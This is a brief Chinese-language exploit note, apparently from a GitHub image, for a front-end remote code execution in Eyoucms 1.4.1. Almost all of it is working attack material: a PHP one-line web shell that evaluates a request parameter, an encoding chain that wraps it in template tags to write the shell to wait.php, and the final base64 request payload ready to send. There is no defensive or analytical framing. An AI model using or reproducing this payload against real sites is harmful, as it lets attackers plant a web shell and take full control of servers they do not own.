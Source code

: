 PD9waHAgYXNzZXJ0KCRfUkVRVUVTVFsidyJdKTs/Pg==内容：

    <?php eval($_REQUEST[“w”]);?>

将php标签转换为json格式并加密：

    print base64_encode(json_encode(array("{php}file_put_contents('./wait.php',base64_decode(\"PD9waHAgYXNzZXJ0KCRfUkVRVUVTVFsidyJdKTs/Pg==\"));{/php}"=>"{php}file_put_contents('./wait.php',base64_decode(\"PD9waHAgYXNzZXJ0KCRfUkVRVUVTVFsidyJdKTs/Pg==\"));{/php}")));

    eyJ7cGhwfWZpbGVfcHV0X2NvbnRlbnRzKCcuXC93YWl0LnBocCcsYmFzZTY0X2RlY29kZShcIlBEOXdhSEFnWVhOelpYSjBLQ1JmVWtWUlZVVlRWRnNpZHlKZEtUc1wvUGc9PVwiKSk7e1wvcGhwfSI6IntwaHB9ZmlsZV9wdXRfY29udGVudHMoJy5cL3dhaXQucGhwJyxiYXNlNjRfZGVjb2RlKFwiUEQ5d2FIQWdZWE56WlhKMEtDUmZVa1ZSVlVWVFZGc2lkeUpkS1RzXC9QZz09XCIpKTt7XC9waHB9In0=

pyload:

    attarray=eyJ7cGhwfWZpbGVfcHV0X2NvbnRlbnRzKCcuXC93YWl0LnBocCcsYmFzZTY0X2RlY29kZShcIlBEOXdhSEFnWVhOelpYSjBLQ1JmVWtWUlZVVlRWRnNpZHlKZEtUc1wvUGc9PVwiKSk7e1wvcGhwfSI6IntwaHB9ZmlsZV9wdXRfY29udGVudHMoJy5cL3dhaXQucGhwJyxiYXNlNjRfZGVjb2RlKFwiUEQ5d2FIQWdZWE56WlhKMEtDUmZVa1ZSVlVWVFZGc2lkeUpkS1RzXC9QZz09XCIpKTt7XC9waHB9In0=&htmlcode=bb

![](resource/Eyoucms1.4.1前台rce/media/rId27.png)
